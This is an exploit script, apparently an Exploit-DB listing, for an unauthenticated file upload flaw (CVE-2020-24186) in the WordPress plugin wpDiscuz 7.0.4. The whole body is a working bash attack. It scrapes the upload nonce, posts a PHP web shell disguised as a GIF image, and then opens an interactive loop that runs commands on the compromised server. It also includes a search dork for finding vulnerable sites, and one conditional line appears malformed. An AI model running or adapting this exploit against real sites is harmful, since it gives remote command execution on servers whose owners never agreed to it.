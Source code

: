 EXP
---

    # Exploit Title: Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)
    # Google Dork: inurl:/wp-content/plugins/wpdiscuz/
    # Date: 2021-06-06
    # Original Author: Chloe Chamberland
    # Exploit Author: Juampa Rodríguez aka UnD3sc0n0c1d0
    # Vendor Homepage: https://gvectors.com/
    # Software Link: https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip
    # Version: 7.0.4
    # Tested on: Ubuntu / WordPress 5.6.2
    # CVE : CVE-2020-24186

    #!/bin/bash

    if [ -z $1 ]
    then
      echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
      exit 0
    elif [ -z $2 ]
    then
      echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
      exit 0
    else

    post=$(curl -sI http://$1$2/ | head -n1)

    if [["$post"_==_*"200_OK"*|"$post" == *"200 OK"*]]; then
        wmu_nonce=$(curl -s http://$1$2/ | sed -r "s/wmuSecurity/\nwmuSecurity/g" | grep wmuSecurity | cut -d '"' -f3)
        webshell=$(curl -isk -X 'POST' -H 'X-Requested-With: XMLHttpRequest' -H 'Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryUnD3s' --data-binary $'-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"action\"\x0d\x0a\x0d\x0awmuUploadFiles\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_nonce\"\x0d\x0a\x0d\x0a'$wmu_nonce$'\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmuAttachmentsData\"\x0d\x0a\x0d\x0aundefined\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\"a.php\" Content-Type: image/jpeg\x0d\x0a\x0d\x0aGIF8\x0d\x0a<?php\x0d\x0aif(isset($_REQUEST[\'cmd\'])){\x0d\x0a        $cmd = ($_REQUEST[\'cmd\']);\x0d\x0a        system($cmd);\x0d\x0a        die;\x0d\x0a}\x0d\x0a?>\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"postId\"\x0d\x0a\x0d\x0a18\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s--\x0d\x0a' http://$1/wp-admin/admin-ajax.php | sed 's/\":"\http/\nhttp/g' | grep "http\:\\\\/" | cut -d '"' -f1 | sed 's/\\//g')

        echo -e "\nWebshell:" $webshell"\n"
        echo -e "--------------WIN--------------"
        echo -e "        ¡Got  webshell!        "
        echo -e "-------------------------------\n"
        while :
        do
        read -p '$ ' command
        curl -s $webshell?cmd=$command | grep -v GIF8
    done
    else
        echo -e "\n[!] The indicated post was not found\n"
    fi
    fi